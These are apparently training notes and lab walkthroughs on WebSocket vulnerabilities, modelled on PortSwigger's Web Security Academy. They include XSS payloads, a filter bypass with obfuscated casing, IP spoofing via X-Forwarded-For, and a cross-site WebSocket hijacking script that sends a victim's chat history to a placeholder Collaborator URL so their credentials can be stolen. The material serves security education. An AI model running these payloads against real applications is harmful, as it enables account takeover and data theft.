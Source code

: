 ## Manipulating WebSocket traffic

Finding WebSockets security vulnerabilities generally involves manipulating them in ways that the application doesn't expect. You can do this using Burp Suite.

You can use Burp Suite to:

-   [Intercept and modify WebSocket messages.](https://portswigger.net/web-security/websockets#intercepting-and-modifying-websocket-messages)
-   [Replay and generate new WebSocket messages.](https://portswigger.net/web-security/websockets#replaying-and-generating-new-websocket-messages)
-   [Manipulate WebSocket connections.](https://portswigger.net/web-security/websockets#manipulating-websocket-connections)

## WebSockets security vulnerabilities

In principle, practically any web security vulnerability might arise in relation to WebSockets:

-   User-supplied input transmitted to the server might be processed in unsafe ways, leading to vulnerabilities such as [SQL injection](https://portswigger.net/web-security/sql-injection) or XML external entity injection.
-   Some blind vulnerabilities reached via WebSockets might only be detectable using [out-of-band (OAST) techniques](https://portswigger.net/blog/oast-out-of-band-application-security-testing).
-   If attacker-controlled data is transmitted via WebSockets to other application users, then it might lead to [XSS](https://portswigger.net/web-security/cross-site-scripting) or other client-side vulnerabilities.

### Manipulating WebSocket messages to exploit vulnerabilities

The majority of input-based vulnerabilities affecting WebSockets can be found and exploited by [tampering with the contents of WebSocket messages](https://portswigger.net/web-security/websockets#intercepting-and-modifying-websocket-messages).

For example, suppose a chat application uses WebSockets to send chat messages between the browser and the server. When a user types a chat message, a WebSocket message like the following is sent to the server:

`{"message":"Hello Carlos"}`

The contents of the message are transmitted (again via WebSockets) to another chat user, and rendered in the user's browser as follows:

`<td>Hello Carlos</td>`

In this situation, provided no other input processing or defenses are in play, an attacker can perform a proof-of-concept XSS attack by submitting the following WebSocket message:

`{"message":"<img src=1 onerror='alert(1)'>"}`


### Bypassing XSS and IP restrictions

1.  Click "Live chat" and send a chat message.
2.  In Burp Proxy, go to the WebSockets history tab, and observe that the chat message has been sent via a WebSocket message.
3.  Right-click on the message and select "Send to Repeater".
4.  Edit and resend the message containing a basic XSS payload, such as:
    
    `<img src=1 onerror='alert(1)'>`
5.  Observe that the attack has been blocked, and that your WebSocket connection has been terminated.
6.  Click "Reconnect", and observe that the connection attempt fails because your IP address has been banned.
7.  Add the following header to the handshake request to spoof your IP address:
    
    `X-Forwarded-For: 1.1.1.1`
8.  Click "Connect" to successfully reconnect the WebSocket.
9.  Send a WebSocket message containing an obfuscated XSS payload, such as:
    
    ``<img src=1 oNeRrOr=alert`1`>``

### Cross-Site WebSocket Hijacking

1.  Click "Live chat" and send a chat message.
2.  Reload the page.
3.  In Burp Proxy, in the WebSockets history tab, observe that the "READY" command retrieves past chat messages from the server.
4.  In Burp Proxy, in the HTTP history tab, find the WebSocket handshake request. Observe that the request has no [CSRF](https://portswigger.net/web-security/csrf) tokens.
5.  Right-click on the handshake request and select "Copy URL".
6.  In the browser, go to the exploit server and paste the following template into the "Body" section:
    
    `<script> var ws = new WebSocket('wss://your-websocket-url'); ws.onopen = function() { ws.send("READY"); }; ws.onmessage = function(event) { fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data}); }; </script>`
7.  Replace `your-websocket-url` with the URL from the WebSocket handshake (`YOUR-LAB-ID.web-security-academy.net/chat`). Make sure you change the protocol from `https://` to `wss://`. Replace `your-collaborator-url` with a payload generated by [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator).
8.  Click "View exploit".
9.  Poll for interactions in the Collaborator tab. Verify that the attack has successfully retrieved your chat history and exfiltrated it via Burp Collaborator. For every message in the chat, Burp Collaborator has received an HTTP request. The request body contains the full contents of the chat message in JSON format. Note that these messages may not be received in the correct order.
10.  Go back to the exploit server and deliver the exploit to the victim.
11.  Poll for interactions in the Collaborator tab again. Observe that you've received more HTTP interactions containing the victim's chat history. Examine the messages and notice that one of them contains the victim's username and password.
12.  Use the exfiltrated credentials to log in to the victim user's account.